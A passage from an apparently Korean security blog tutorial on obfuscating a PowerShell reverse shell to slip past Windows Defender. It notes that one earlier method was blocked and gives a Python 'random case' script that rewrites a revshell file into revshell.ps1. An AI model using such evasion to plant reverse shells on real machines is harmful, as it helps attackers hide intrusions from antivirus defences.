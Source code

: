 
<br>

![image](/assets/posts/250902-13.png)

스크립트를 실행하면 터미널 창에서 정상적으로 난독화된 코드를 확인할 수 있으나, `.ps1` 파일이 생성됨과 동시에 Windows Defender에 의해 차단되는 것을 확인할 수 있다.

<br>

<br>

## Random Case

대소문자에 변화를 주는 난독화 방법이다. 예를 들어, `ReVeRsEsHeLl`과 같이 대소문자를 섞어서 작성하는 방법이다.

<br>

```python
# random_case.py

def random_case_obfuscation(revshell_code):
    revshell_code = revshell_code.replace('\n', '')
    revshell_code = revshell_code.replace('\r', '')
    revshell_code = revshell_code.replace(' ', '')
    revshell_code = revshell_code.lower()

    obfuscated_code = ""
    for index, char in enumerate(revshell_code):
        if index % 2 == 0:
            obfuscated_code += char.upper()
        else:
            obfuscated_code += char

    return obfuscated_code

if __name__ == "__main__":
    with open('revshell.txt', 'r') as file:
        revshell_code = file.read()

        obfuscated_code = random_case_obfuscation(revshell_code)

        print(obfuscated_code)

        with open('revshell.ps1', 'w') as file:
            file.write(obfuscated_code)
```
